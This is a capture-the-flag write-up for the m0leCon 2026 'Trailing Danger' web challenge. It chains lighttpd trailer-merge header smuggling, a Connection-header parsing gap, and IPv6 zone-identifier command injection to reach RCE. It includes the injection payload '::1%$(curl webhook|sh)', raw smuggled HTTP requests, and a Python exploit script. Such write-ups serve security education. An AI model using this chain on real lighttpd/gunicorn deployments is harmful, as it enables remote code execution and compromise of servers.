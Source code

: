 # m0leCon CTF 2026 Teaser

# [web] Trailing Danger (16 solves)

The proxy I use is the best, I completely trust it. I doubt you will be able to bypass its protections.

Author: Sebastiano Sartor <@sebsrt>

## Overview

The goal of the challenge is to bypass the proxy rule `url.access-deny = ( "debug" )`
and achieve RCE on the `/debug` endpoint.
```python
@app.post("/debug")
@validate_ip
def ping(ip_address: str):
    try:
        os.popen(f'ping -c 1 {ip_address}')
        return jsonify({"status": "success"})    
    except subprocess.TimeoutExpired:
        return jsonify({"error": "Ping request timed out"}), 408
    except Exception as e:
        return jsonify({"error": str(e)}), 500
```

## Solution

### 1. Header smuggling due to trailers merge into headers

Lighttpd 1.4.80 is used as proxy. This version is vulnerable to **HTTP Header Smuggling due to trailer fields merge into headers**. This vulnerability allows to overwrite the request headers values after the parsing of the request headers and body. The fix for for it can be found here: [[core] security: fix to reject disallowed trailers](https://github.com/lighttpd/lighttpd1.4/commit/35cb89c103877de62d6b63d0804255475d77e5e1).

the fix commit states that:
> lighttpd mod_proxy sends Connection: close to backends, so this bug isnot exploitable to send additional requests to backends

To make the bug exploitable and turn it into a Request Smuggling, another parsing bug has to be exploited:

### 2. Connection header parsing bug

Many web servers only close a connection when they see the literal header `Connection: close`. 

However, [RFC 9110](https://www.rfc-editor.org/rfc/rfc9110#name-connection) allows the `Connection` header to carry multiple, comma-separated options, which must be parsed as independent tokens.
If the token `close` appears anywhere in that list, the connection **must not persist** (see [RFC 9112](https://www.rfc-editor.org/rfc/rfc9112.html#name-persistence)).

---

When lighttpd encounters these headers:
```
TE: trailers
Upgrade: any
Connection: any
```
it returns an 'ambiguous' connection header: `Connection: close, upgrade, te`.

*This also bypasses the configuration restrictions as it should be configured with `proxy.header += ( "upgrade" => "enable" )` to support upgrade*

The **ambiguous connection header sent by the proxy won't be interpreted as `close` by gunicorn, leaving the connection open and enabling request smuggling**.

### 3. Command injection via IPv6 zone identifiers

IPv6 **link-local** addresses (`fe80::/10`) can exist on multiple interfaces of the same host. To disambiguate which link you mean, IPv6 text form allows a **zone identifier** (aka *zone index* / *scope ID*) appended as `%<zone>`:

```
fe80::1%eth0
```

[RFC 6874](https://datatracker.ietf.org/doc/html/rfc6874) defines how zones appear in URIs and constrains the characters allowed in the zone text:

> A `<zone_id>` SHOULD contain only ASCII characters classified as “unreserved” for use in URIs [RFC3986]. This excludes characters such as “]” or even “%” that would complicate parsing.

this gives us enough characters to build a valid IPv6 address that can contain shell commands, for example:

 `::1%$(curl webhook|sh)`


### Connecting the dots - TR.MRG HTTP Request Smuggling

Send the following request to lighttpd:
```http
POST / HTTP/1.1
Host: localhost:3002
Transfer-Encoding: chunked

7c
POST /debug HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 50

{"ip":"::1%$(curl webhook|sh)"}
0
Content-Length: 0
TE: trailers
Connection: x
```

It will:
- dechunk the request
- merge the trailer fields into headers overriding the content-length with `0`
- add the `te` token to the connection options.

This is the request that  will be forwarded to the backend:
```http
POST / HTTP/1.1
Host: localhost:3002
Content-Length: 0
Connection: close, te

POST /debug HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 50

{"ip":"::1%$(curl webhook|sh)"}
```

## Exploit
```python
import socket

webhook = "url"

cmd = f'{{"ip":"::1%$(curl {webhook}|sh)"}}'

smug = f'POST /debug HTTP/1.1\r\nHost: localhost\r\nContent-Type: application/json\r\nContent-Length: {len(cmd)}\r\n\r\n{cmd}'
req = f'POST / HTTP/1.1\r\nHost: localhost:3002\r\nTransfer-Encoding: chunked\r\n\r\n{len(smug):x}\r\n{smug}\r\n0\r\nContent-Length: 0\r\nTE: trailers\r\nConnection: x\r\n\r\n'

print(req)

try:
    sock = socket.create_connection(("trailing-danger.challs.m0lecon.it", 32769), timeout=20)
    sock.sendall(req.encode())
except Exception as e:
    print('error', e)
finally:
    sock.close()
```
